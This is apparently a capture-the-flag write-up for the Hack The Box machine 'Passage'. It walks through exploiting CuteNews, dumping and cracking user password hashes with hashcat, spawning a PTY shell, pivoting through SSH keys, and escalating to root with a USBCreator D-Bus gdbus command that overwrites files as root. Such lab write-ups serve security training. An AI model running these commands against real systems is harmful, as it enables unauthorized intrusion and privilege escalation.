


## Table of contents
{: .no_toc .text-delta }


- Summary
- Recon
- Intrusion
- Lateral Movement
- Privilege Escalation
{:toc}


## [](#header-2)Summary:

- Enumerate Vulnerable version of CuteNews
- Exploit vulnerability to pop a shell
- Pivot into more privileged user(s)
- Escalate privileges with USBCreator D-Bus exploit


## [](#header-2)Recon:

Running an aggressive nmap scan I can see that there is a open ssh port and a apache webserver running on port 80.





Exploring the target host's website we get the following page:





At the bottom we see that the site is running on "CuteNews".








Searchsploit gifts us a mighty(and easy to use) exploit.


Once we use the exploit I pop into a rather restrictive shell within the web dir.





We also get some hashes to crack but to enumerate who the users may be I followed the some of the exploit code and end up on with the below encrypted info.





Which we can decrypt from base 64 into the following:

```bash
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:4:"name";a:1:{s:5:"admin";
a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"a:2:{s:4:"site";s:0:"";s:5:"about";s:0:"";}";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}

```

Now we know which password hashes match to which users.


## [](#header-2)Intrusion:


To get a better shell I downloaded a reverse php shell from my host and catch the connection with netcat.





I was logged in as www-data and had little to no access to much.


At around this time my hashcat that I ran earlier with 
-m 1400 = Sha256

```bash

 hashcat -m 1400  hashes.txt /usr/share/wordlists/rockyou.txt  

```

 the SHA-256 hashes came back with one result, which belongs to the user paul.


```bash
 e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

 ```

 ## [](#header-2)Lateral Movement:


 To sign is as paul with "su" I had to switch my shell with:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```


Still not getting much of anywhere with Paul's account, I aimed to switch to the user nadav for two reasons:

1. nadav was the only other user I found in the /home dir.
2. nadav had more privileges and was apart of sudo group.

Looking in paul's authorized_keys file within ~/.ssh I found nadav's public ssh key.



Then I finally get into nadav's account and get the user flag.


## [](#header-2)Privilege Escalation:


My goal from here is to escalate privileges and get my ass evolved to root user.




After searching for awhile I find a .viminfo file on nadav's /home dir with the help of the ls -a command.

```bash
cat .viminfo
# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Substitute Search Pattern:
~MSle0~&AdminIdentities=unix-group:root

# Last Substitute String:
$AdminIdentities=unix-group:sudo

# Command Line History (newest to oldest):
:q
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

# Search String History (newest to oldest):
? AdminIdentities=unix-group:root

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:

# File marks:
'0  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
'1  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# Jumplist (newest first):
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# History of marks within files (newest to oldest):

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0

> /etc/dbus-1/system.d/com.ubunu.USBCreator.conf
```


Having no idea what "com.ubunu.USBCreator.conf" was I googled and found a very interesting [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) to say the least.


I saw the article was written by the man himself nadav, so this was my first hint I was on the right path.

Essentially, the exploit allows us to create/overwrite arbitrary files as root with no password as long as the attacker(me) has access to the sudoers group(which nadav has). 


Naturally, my target with this was to overwrite the authorized_keys file in the /root/.ssh directory with nadav's.

With the following command:

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/a.txt /a.txt true
```


I was able to overwrite the file which was indicated by the ().




~~~Root!~~~


This was a really fun box especially on the lateral movement/priv esc side of things.


